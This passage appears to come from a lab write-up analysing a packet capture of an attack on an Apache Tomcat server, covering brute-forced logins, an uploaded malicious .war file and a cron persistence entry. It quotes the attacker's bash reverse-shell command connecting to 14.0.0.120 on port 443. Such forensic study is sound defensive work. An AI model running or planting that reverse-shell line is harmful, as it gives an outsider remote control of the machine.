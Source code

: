 ![q7](https://github.com/user-attachments/assets/7a641f38-e961-4f9f-bc1e-4c6773b0488b)

Brute force attacks (like in our case with Gobuster)  often involve repeated submission of login credential via the HTPP POST request containing credentials in their body: filtering for POST isolates traffic where attackers likely send username/passing-code combinations (aka.secret authentication credentials)

2) simply head on Network Miner and analyses he credential tab
3) 
![q7-2](https://github.com/user-attachments/assets/46cad778-2a2c-49ed-9e32-dfaf8f1ffbc9)

Q8) Once authenticated, the attacker uploaded a malicious file with the intent to create a reverse shell. What is the name of the file uploaded?

To find out, we re-analyze the list of http requests that the attacker was sending to the destination IP, and knowing that in this case it is uploading a file, we analyze the POST methods for something that indicates that a file has been uploaded. file.

If we select that POST request and follow the stream, we can see the file upload and the name: JXQOZY.war

![q8](https://github.com/user-attachments/assets/665725ec-0ebb-4a89-be46-2544c51aee0a)

Attacker chose an extension file .war because these types of files are used by Java servers as Apache Tomcat to deploy web applications.

Q9) To maintain persistence on the compromised server, the attacker scheduled a command to ensure they could reconnect later. What is the exact command they used?

Here what we do is again is to track requests from the previous POST where the attacker uploaded the malicious file; to do so we can use the following filter in Wireshark:

ip.src==14.0.0.120 && tcp.flags==0x012

![q9-1](https://github.com/user-attachments/assets/e744f577-9dd1-451a-9aa8-0f486a5bb6f5)

where:

- ip.scr==14.0.0.120 --> filters packets where 14.0.0.120 is the IP source address of the traffic.
- tcp.flags==0x012 --> filters TCP packets where SYN and SCk flags are set simultaneously.

We then see that the request already changes to TCP because the communication is done through port 443. If we analyze that request, following the TCP stream we see that it interacts with the victim machine saying whoami, etc., and includes a cron tab command to constantly run persistently.

![q9-2](https://github.com/user-attachments/assets/6a8d601b-4d44-4fdc-956b-5125602b50cb)

![q9](https://github.com/user-attachments/assets/287a90e8-3d05-48d3-b2f3-8648d79cdedf)

/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'

Summary:
To solve this laboratory we first analyze with Wireshark a network traffic file. In it we detect that an attacker, from the IP 14.0.0.120 (located in China), performed a port scan and found the web server available on the port 8080, where you tried to access confidential directories like / admin and / manager using a called tool Gobuster.
